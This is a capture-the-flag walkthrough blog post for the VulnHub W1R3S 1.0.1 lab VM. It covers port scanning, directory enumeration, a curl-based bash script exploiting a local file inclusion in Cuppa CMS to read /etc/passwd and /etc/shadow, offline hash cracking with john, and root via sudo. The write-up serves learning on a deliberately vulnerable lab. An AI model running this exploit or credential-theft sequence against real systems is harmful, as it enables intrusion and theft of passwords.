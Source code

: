 ```yaml
---
layout: post
modified: 2018-06-07 17:03:45 +0000
title: "W1R3S: 1.0.1 Walkthrough"
category: Walkthrough
tags: [VulnHub, W1R3S]
comments: true
image:
  feature: w1r3s-1.0.1-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/halloween-ghosts-happy-halloween-1746354/
---
```


This post documents the complete walkthrough of W1R3S: 1.0.1, a boot2root [VM][1] created by SpecterWires, and hosted at [VulnHub][2]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Someone hires you to do a penetration test on the W1R3S.inc individual server and report all findings. They ask you to gain `root` access and find the flag (located in `/root` directory).

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.100.130
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:21 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:25 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28 16:53 new-employees
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|_  256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
```

As usual, let's go with directory/file enumeration on the web service and see what we get.

### Directory/File Enumeration

I like to use `gobuster` with one of the big directory wordlists.

```
Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.100.130/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://192.168.100.130/administrator (Status: 301)
http://192.168.100.130/javascript (Status: 301)
http://192.168.100.130/wordpress (Status: 301)
=====================================================
```

OK. We find two interesting directories: `administrator` and `wordpress`.

### Cuppa CMS

The `administrator` directory turns out to be the installation setup for Cuppa CMS. This is how it looks like when I point the browser to `/administrator`.

![screenshot-1](/assets/images/posts/w1r3s-walkthrough/screenshot-1.png)

According to the official [documentation](https://www.cuppacms.com/en/docs/installation), in order for the installation to complete, it will have to create the database first.

>Remember, the database should be created before to install Cuppa CMS.

The Cuppa CMS installation was never completed in the first place or I'll not be seeing the setup page. I downloaded a [copy](http://cuppacms.com/files/cuppa_cms.zip) of the Cuppa CMS code to see if I can discover any vulnerabilities.

I'm not sure if this is a new vulnerability but it's a pleasant surprise to find an LFI vulnerability in `alertConfigField.php` at line 77.

![screenshot-2](/assets/images/posts/w1r3s-walkthrough/screenshot-2.png)

To test it, I wrote `cat.sh`, a simple script that will display any file as long as there's permission to do so.

{% highlight bash linenos %}
#!/bin/bash

_HOST=192.168.100.130
_PATH=administrator/alerts/alertConfigField.php
_PARM=urlConfig
_TRAV=../../../../../../../..

curl -s --data-urlencode "${_PARM}=${_TRAV}$1" $_HOST/$_PATH \
| sed -r 's/^ {8}//' \
| sed '71,$!d' \
| sed '$d' \
| sed '$d'
{% endhighlight %}

Let's give it a shot and see what we get.

```
# ./cat.sh /etc/passwd
...
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```
Imagine my surprise when I request for `/etc/shadow` and it shows up in the output.

```
# ./cat.sh /etc/shadow
...
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

I'm not sure if `/etc/shadow` is intentionally made world-readable; it should not be the case.

### John the Ripper

With both `passwd` and `shadow` available, I can `unshadow` them, and send them to `john` for offline cracking with a wordlist like "rockyou".

The cracking completes in seconds.

```
# john --format=crypt --show hashes.txt
w1r3s:computer:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

I can now log in to the box via SSH with the cracked password.

![screenshot-3](/assets/images/posts/w1r3s-walkthrough/screenshot-3.png)

### Privilege Escalation

It isn't long before I see that `w1r3s` is on the `sudoers` list.

![screenshot-4](/assets/images/posts/w1r3s-walkthrough/screenshot-4.png)

Becoming `root` is another command away.

![screenshot-5](/assets/images/posts/w1r3s-walkthrough/screenshot-5.png)

:dancer:

### Afterthought

To be honest, I didn't even bother with WordPress. :stuck_out_tongue_winking_eye:

[1]: https://www.vulnhub.com/entry/w1r3s-101,220/
[2]: https://www.vulnhub.com

*[LFI]: Local File Inclusion

